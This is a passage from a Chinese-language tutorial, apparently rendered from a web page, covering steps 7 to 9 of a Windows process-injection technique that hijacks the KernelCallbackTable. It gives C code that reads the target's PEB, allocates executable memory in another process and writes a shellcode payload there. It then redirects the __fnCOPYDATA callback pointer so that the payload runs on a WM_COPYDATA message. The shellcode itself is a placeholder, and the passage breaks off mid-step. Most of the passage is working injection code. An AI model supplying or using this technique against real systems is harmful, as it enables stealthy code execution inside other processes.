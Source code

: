 
**详细说明**

*   NtQueryInformationProcess 填充 PROCESS\_BASIC\_INFORMATION 结构（包括 PebBaseAddress），从而提供对 PEB 的访问权限，以便进一步操作内核回调表。

### 第 7 步 - 读取内核回调表

使用 PEB 地址，代码读取 Kernel Callback Table 的内存地址，从而允许修改此表中的函数指针以控制回调。

    PVOID KernelCallbackTable;
    SIZE_T bytesRead = 0;
    if ( !ReadProcessMemory( hProcess, ( PBYTE ) PebBaseAddress + offsetof( PEB, KernelCallbackTable ), &KernelCallbackTable, sizeof( PVOID ), &bytesRead ) ) {
        printf( "[-] Failed to read KernelCallbackTable. Error: %d\n", GetLastError() );
        return -1;
    }
    printf( "[*] KernelCallbackTable Address: 0x%p\n", KernelCallbackTable );


**详细说明**

*   ReadProcessMemory 在距 PEB 地址偏移量处访问 Kernel Callback Table，从而访问控制某些回调函数的指针。

### 第 8 步 - 为有效负载分配内存

有效负载（通常是 shellcode）在目标进程的内存空间内分配。内存标记为 executable 以确保代码可以运行。

    unsigned char my_payload[] = "..."; 
    SIZE_T shellcodeSize = sizeof( my_payload );
    
    LPVOID remotebuf = VirtualAllocEx( hProcess, NULL, shellcodeSize, MEM_RESERVE | MEM_COMMIT, PAGE
    
    _EXECUTE_READWRITE );
    if ( !remotebuf ) {
        printf( "[-] Failed to allocate remote buffer. Error: %d\n", GetLastError() );
        return -1;
    }
    if ( !WriteProcessMemory( hProcess, remotebuf, my_payload, shellcodeSize, NULL ) ) {
        printf( "[-] Failed to write payload to remote buffer. Error: %d\n", GetLastError() );
        return -1;
    }
    printf( "[+] Payload written to remote buffer at: 0x%p\n", remotebuf );


**详细说明**

*   VirtualAllocEx 在目标进程中分配内存，并使用 PAGE\_EXECUTE\_READWRITE 对其进行标记，使其既可写又可执行。
*   WriteProcessMemory 将 shellcode 写入分配的空间，使其能够在触发时运行。

### 第 9 步 - 修改内核回调表

通过将 \_\_fnCOPYDATA 指针重定向到注入的负载来修改 Kernel Callback Table。这使得 Windows 在 WM\_COPYDATA 消息期间调用有效负载。

    KERNELCALLBACKTABLE cKCT;
    if ( !ReadProcessMemory( hProcess, KernelCallbackTable, &cKCT, sizeof( cKCT ), &bytesRead ) ) {
        printf( "[-] Failed to read existing KernelCallbackTable. Error: %d\n", GetLastError() );
        return -1;
    }
    cKCT.__fnCOPYDATA = ( ULONG_PTR ) remotebuf;
    